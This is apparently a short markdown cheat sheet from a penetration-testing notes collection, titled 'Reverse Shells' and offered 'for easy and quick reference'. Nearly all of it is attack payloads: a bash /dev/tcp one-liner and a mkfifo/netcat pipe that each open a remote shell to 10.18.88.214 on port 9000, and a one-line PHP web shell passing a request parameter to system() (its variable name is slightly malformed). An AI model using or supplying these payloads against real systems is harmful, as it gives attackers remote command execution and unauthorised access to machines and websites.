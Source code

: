 ```yaml
---
description: reverse shells for easy and quick reference.
---
```


# Reverse Shells

### List of Reverse Shells

```bash
bash -i >& /dev/tcp/10.18.88.214/9000 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f


```

### PHP Shells / cmds

```bash
<?php system(GET["cmd"]) ?>
```













